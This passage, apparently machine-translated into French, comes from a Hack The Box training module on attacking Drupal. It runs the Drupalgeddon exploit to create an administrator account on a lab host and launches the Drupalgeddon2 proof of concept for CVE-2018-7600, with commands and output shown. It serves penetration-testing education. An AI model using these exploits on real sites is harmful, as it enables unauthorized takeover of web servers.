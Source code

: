```
                    https://twitter.com/homelabit
                  https://plus.google.com/+HomelabIt1/
        https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww

Utilisation : drupalgeddon.py -t http[s]://URL_CIBLE -u UTILISATEUR -p PASSE

Option :
   -h, --help affiche ce message d'aide et quitte
   -t CIBLE, --target=CIBLE
                         Insérer l'URL : http[s]://www.victim.com
   -u NOM D'UTILISATEUR, --username=NOM D'UTILISATEUR
                         Insérer le nom d'utilisateur
   -p PWD, --pwd=PWD Insérer le mot de passe

```

Ici, nous voyons que nous devons fournir l'URL cible ainsi qu'un nom d'utilisateur et un mot de passe pour notre nouveau compte administrateur. Exécutons le script et voyons si nous obtenons un nouvel utilisateur administrateur.

```
dsgsec@htb[/htb]$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

<SNIP>

[!] VULNÉRABLE!

[!] Utilisateur administrateur créé !

[*] Connexion : pirate informatique
[*] Pass : pwnd
[*] Url : http://drupal-qa.inlanefreight.local/?q=node&destination=node

```

Voyons maintenant si nous pouvons nous connecter en tant qu'administrateur. Nous pouvons! Maintenant, à partir de là, nous pourrions obtenir une coque par les différents moyens évoqués précédemment dans cette section.

![](https://academy.hackthebox.com/storage/modules/113/drupalgeddon.png)

Nous pourrions également utiliser le [exploit/multi/http/drupal_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/) Module Metasploit pour exploiter cela.

* * * * *

Drupalgeddon2
--------------

Nous pouvons utiliser [this](https://www.exploit-db.com/exploits/44448) PoC pour confirmer cette vulnérabilité.

```
dsgsec@htb[/htb]$ python3 drupalgeddon2.py

################################################# ##############
# Preuve de concept pour CVE-2018-7600
# par Vitalii Rudnykh
# Merci par AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################# ##############
Fourni uniquement à des fins éducatives ou d'information

Saisissez l'URL cible (exemple : https://domain.ltd/) : http://drupal-dev.inlanefreight.local/

Vérifier : http://drupal-dev.inlanefreight.local/hello.txt
```